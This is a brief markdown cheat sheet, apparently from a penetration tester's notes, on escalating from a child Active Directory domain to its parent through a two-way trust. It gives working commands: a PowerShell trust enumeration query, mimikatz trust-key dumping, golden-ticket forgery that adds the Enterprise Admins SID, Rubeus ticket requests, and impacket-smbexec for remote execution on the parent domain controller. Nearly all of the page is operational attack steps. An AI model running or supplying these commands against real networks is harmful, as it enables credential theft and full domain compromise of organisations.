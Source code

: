 # Exploit Child Domain Trust

From : https://github.com/WiredPulse/PowerShell/blob/master/Active_Directory/Get-DomainTrusts.ps1

```powershell
.NOTES:
    UNDERSTANDING OUTPUT:
    TrustedAttributes = Direction of Trust
        1 = Non-Transitive
        2 = Transitive

    TrustedDirection = Direction of Trust
        1 = Incoming only
        2 = Outgoing only
        3 = Two-way
    

Get-WmiObject -Class Microsoft_DomainTrustStatus -Namespace ROOT\MicrosoftActiveDirectory | Select-Object PSComputername, TrustedDomain, TrustAttributes, TrustDirection, TrustType
```

## Mimikatz

```
mimikatz # privilege::debug
mimikatz # lsadump::trust /patch 
```

## Exploit with child domain -> parent domain

If trust by twoways, like `[  In ] DEV.ADMIN.OFFSHORE.COM -> ADMIN.OFFSHORE.COM` show on mimikatz, we can exploit it:

`519` is the `Enterprise Administrarors` Group.

```
mimikatz # kerberos::golden /domain:<current domain (sub.manesec.com)> /sid:<current SID> /sids:<target domain SID>-519 /rc4:<rc4_hmac_nt> /user:administrator /service:krbtgt /target:<target domain (manesec.com)>  /ticket:save.kirbi /ptt

.\Rubeus.exe asktgs /ticket:save.kirbi /service:CIFS/DC.MANESEC.COM /dc:MANESEC.COM /ptt /outfile:admin.kirbi

impacket-smbexec administrator@DC.MANESEC.COM -dc-ip 172.16.3.5 -k -no-pass -debug
```

## Reference

+ https://harmj0y.medium.com/a-guide-to-attacking-domain-trusts-ef5f8992bb9d
+ https://www.c0bra.xyz/2021/02/17/%E5%9F%9F%E6%B8%97%E9%80%8F-SID-History%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%E5%8F%8A%E5%9F%9F%E4%BF%A1%E4%BB%BB%E6%94%BB%E5%87%BB/

